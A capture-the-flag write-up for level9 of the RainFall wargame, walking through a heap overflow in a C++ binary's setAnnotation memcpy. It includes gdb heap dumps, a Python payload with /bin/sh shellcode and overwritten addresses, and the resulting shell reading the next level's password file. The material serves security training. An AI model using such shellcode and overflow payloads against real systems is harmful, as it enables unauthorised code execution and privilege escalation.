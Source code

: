 # Level9
Level9 requires us to exploit a CPP binary.

# Tools

# Walkthrough

The home of level9 contains a CPP binary, `level9`. We decompile it with dogbolt and get a few interesting elements.
First, there is a main function:
```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
	N *v3; // ebx
	N *v4; // ebx
	N *v6; // [esp+1Ch] [ebp-8h]

	if ( argc <= 1 )
	_exit(1);
	v3 = (N *)operator new(0x6Cu);
	N::N(v3, 5);
	v6 = v3;
	v4 = (N *)operator new(0x6Cu);
	N::N(v4, 6);
	N::setAnnotation(v6, (char *)argv[1]);
	return (**(int (__cdecl ***)(N *, N *))v4)(v4, v6);
}
```
The `operator new` will allocated raw memory on the heap, `0x6C` = 108.

Where N is a CPP class. The `setAnnotation` method:
```cpp
void *__cdecl N::setAnnotation(N *this, char *s)
{
	size_t v2; // eax

	v2 = strlen(s);
	return memcpy((char *)this + 4, s, v2);
}
```
The `memcpy` function copies the content of `argv[2]`.
As we allocated 108 bytes, and we `memcpy` writes to the allocated space without checking the bounds, we can try to heap buffer overflow and hijack process execution flow by overwriting the return address.

Let's exploit now.
```
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
```
We break at `0x0804867c`, the return address of `setAnnotation`. 
```
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) r AAAAAAAAAAAAAAAAAAAA
Starting program: /home/user/level9/level9 AAAAAAAAAAAAAAAAAAAA
```
We run the payload with many `A`s to find the start of the buffer.

Get the address of the heap with `info proc mappings`
```
Breakpoint 1, 0x0804867c in main ()
(gdb) info proc mappings
process 4426
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/user/level9/level9
	 0x8049000  0x804a000     0x1000        0x0 /home/user/level9/level9
	 0x804a000  0x806b000    0x21000        0x0 [heap]
	0xb7cfa000 0xb7cfc000     0x2000        0x0
	0xb7cfc000 0xb7d18000    0x1c000        0x0 /lib/i386-linux-gnu/libgcc_s.so.1
	0xb7d18000 0xb7d19000     0x1000    0x1b000 /lib/i386-linux-gnu/libgcc_s.so.1
	0xb7d19000 0xb7d1a000     0x1000    0x1c000 /lib/i386-linux-gnu/libgcc_s.so.1
	0xb7d1a000 0xb7d44000    0x2a000        0x0 /lib/i386-linux-gnu/libm-2.15.so
	0xb7d44000 0xb7d45000     0x1000    0x29000 /lib/i386-linux-gnu/libm-2.15.so
	0xb7d45000 0xb7d46000     0x1000    0x2a000 /lib/i386-linux-gnu/libm-2.15.so
	0xb7d46000 0xb7d47000     0x1000        0x0
	0xb7d47000 0xb7eea000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
	0xb7eea000 0xb7eec000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7eec000 0xb7eed000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
	0xb7eed000 0xb7ef0000     0x3000        0x0
	0xb7ef0000 0xb7fc8000    0xd8000        0x0 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
	0xb7fc8000 0xb7fc9000     0x1000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
	0xb7fc9000 0xb7fcd000     0x4000    0xd8000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
	0xb7fcd000 0xb7fce000     0x1000    0xdc000 /usr/lib/i386-linux-gnu/libstdc++.so.6.0.16
	0xb7fce000 0xb7fd5000     0x7000        0x0
	0xb7fdb000 0xb7fdd000     0x2000        0x0
	0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
	0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
	0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
	0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
	0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
The address is `0x804a000`.
We get the first 20 double words, and see our `A` (`A` = `0x41`).
The start of the buffer is `0x804a000` + 4 + 4 + 4 = `0x804a00c`.
```
(gdb) x/20dx 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a040:	0x00000000	0x00000000	0x00000000	0x00000000
```

Now, let's confirm that we can make the program crash by segfaulting it (the binary prints nothing if no problem):
```
level9@RainFall:~$ ./level9 $(python -c 'print "A"*108')
level9@RainFall:~$ ./level9 $(python -c 'print "A"*109')
Segmentation fault (core dumped)
```
Contrary to the previous levels, there are no given method to get the access no flag (no `cat`, no `system` call...)
So let's try to input a shellcode, and put the buffer address after the segfault to overwrite the return address.

Content of the heap when overflowing 108:
```
(gdb) x/80wx 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a050:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a060:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a070:	0x41414141	0x41414141	0x08048848	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
```

Content of the heap when overflowing 112:
```
(gdb) x/80wx 0x804a000
0x804a000:	0x00000000	0x00000071	0x08048848	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a050:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a060:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a070:	0x41414141	0x41414141	0x41414141	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
```
The return address is overwritten. 

We use that [shellcode](https://shell-storm.org/shellcode/files/shellcode-752.html) from kernel_panik. 

```
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
```
As you can see, the main dereferences the content stored at `edx`, so instead of directly passing the shell code, we need to pass the address of the shell.
So, to make it clearer:
1. We buffer overflow in `memcopy` to overwrite the return address
2. We overwrite the return address by the address of the start of the buffer
3. The program dereferences the content of `edx`, and calls the pointed address, which is going to be the address of the start of the shellcode (the address of the buffer + the 4 bytes for the written address of the shellcode)
4. The program executes the shellcode

Thus, the payload is in the form of:
```
[SHELL ADDRESS] + [SHELL CODE] + [PADDING] + [BUFFER ADDRESS]
```

The shell address is the buffer address + the size of an address, 4 bytes. So shell address = `0x804a00c` + 4 = `0x804a010`

We now have a shellcode, a buffer length, the buffer address and our shell address, let's make our payload:
```py
len_buffer = 108
shell_address=b"\x10\xa0\x04\x08"
shell_code = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
return_address = b"\x0c\xa0\x04\x08"

payload = (
	shell_address +
    shell_code +
    b"A" * (len_buffer - len(shell_code) - len(shell_address)) +
    return_address
)

print(payload)
```

We run the binary with our script:
```
level9@RainFall:~$ ./level9 $(python script.py)
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
```
